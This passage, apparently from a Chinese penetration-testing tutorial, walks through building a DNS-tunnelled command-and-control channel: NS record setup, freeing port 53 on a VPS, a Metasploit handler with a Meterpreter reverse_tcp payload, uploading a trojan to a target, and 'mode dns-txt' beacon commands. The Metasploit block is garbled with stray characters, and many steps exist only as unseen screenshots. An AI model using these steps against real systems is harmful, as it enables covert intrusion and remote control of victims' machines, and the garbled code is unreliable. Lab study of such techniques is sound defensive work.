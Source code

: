 为什么要设置NS类型的记录呢？因为NS类型的记录不是用于设置某个域名的DNS服务器的，而是用于设置某个子域名的DNS服务器的。

验证自己的解析是否生效：

- ping yuangogo.com
  
  ![截图](9af5c6cbf71057cb25e1ca5606b37b7d.png)
- 在vps上监听UDP53端口，而后我们再去ping子域名：
  ```
  tcpdump -n -i eth0 udp dst port 53
  ```

![截图](a9d675675d9ec253fd2a5bf245b1bc26.png)

注：一定要开通vps的53端口，开启过程如下：

![截图](b366500826e0186666a7df7535354672.png)

停掉vps的53端口：

```bash
systemctl status systemd-resolved.service

systemctl stop systemd-resolved.service

lsof -i:53 # 查看53端口占用

kill -9 xxxx # kill掉占用进程
```

### 攻击过程

首先，设置监听器：

![截图](76d569f3c39fe6890d460ea6d6a283c4.png)

然后，生产木马：

xxxxxxxxxx6 1use exploit/multi/handler2set payload windows/meterpreter/reverse_tcp3set LHOST 127.0.0.14set LPORT 22235exploit6​bash

![截图](40604660ada3537ef36b8fe67d8f6574.png)

上传到靶机，并点击后上线。 

当然，一开始上线时候机子是黑色的，这时候就需要我们执行以下命令，让主机的信息显现：

```bash
checkin
mode dns-txt
```

![截图](fabdde7d30872be236584e4401b3d8e2.png)

![截图](1e427452f93e890cfe698b0fd6f2a363.png)
